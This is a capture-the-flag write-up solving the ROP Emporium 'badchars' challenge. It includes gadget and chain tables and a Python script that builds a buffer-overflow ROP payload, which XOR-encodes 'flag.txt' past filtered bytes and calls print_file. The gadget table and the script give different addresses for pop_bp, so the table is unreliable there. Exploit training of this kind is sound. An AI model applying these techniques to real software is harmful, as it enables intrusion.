 # badchars
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test


## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                | Note                                                                                        |
|----|-----------------------------------------------------------|---------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                                          |                                                                                             |
| 2  | pop_bx, 0x01010101                                        | The lower byte will be used later for XOR operations.                                       |
| 3  | pop_si_di_bp, "fl\x60f", memory4string, memory4string+2   | Each update of the EBP register sets it to the address of the next byte that will be XORed. |
| 4  | mov2memory                                                | After this operation, the string will be `"fl\x60f"`.                                       |
| 5  | xor2memory                                                | After this operation, the string will be `"flaf"`.                                          |
| 6  | pop_bp, memory4string+3                                   |                                                                                             |
| 7  | xor2memory                                                | After this operation, the string will be `"flag"`.                                          |
| 8  | pop_si_di_bp, "\x2ftyt", memory4string+4, memory4string+4 |                                                                                             |
| 9  | mov2memory                                                | After this operation, the string will be `"flag\x2ftyt"`.                                   |
| 10 | xor2memory                                                | After this operation, the string will be `"flag.tyt"`.                                      |
| 11 | pop_bp, memory4string+6                                   |                                                                                             |
| 12 | xor2memory                                                | After this operation, the string will be `"flag.txt"`.                                      |
| 13 | print_file, "XXXX", memory4string                         |                                                                                             |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
